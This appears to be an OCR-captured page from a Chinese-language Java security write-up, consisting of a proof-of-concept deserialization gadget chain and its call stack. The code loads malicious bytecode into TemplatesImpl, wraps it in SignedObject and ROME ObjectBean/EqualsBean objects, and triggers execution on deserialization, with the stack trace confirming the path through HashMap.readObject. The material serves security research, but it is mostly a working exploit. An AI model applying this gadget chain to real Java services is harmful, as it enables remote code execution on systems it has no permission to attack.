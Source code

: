 ```plain
    public static void main(String[] args) throws Exception{
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashMap2);
        oos.close();

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
}
```

调用栈为

```plain
getObject:180, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
toString:120, ObjectBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:339, HashMap (java.util)
readObject:1413, HashMap (java.util)
```
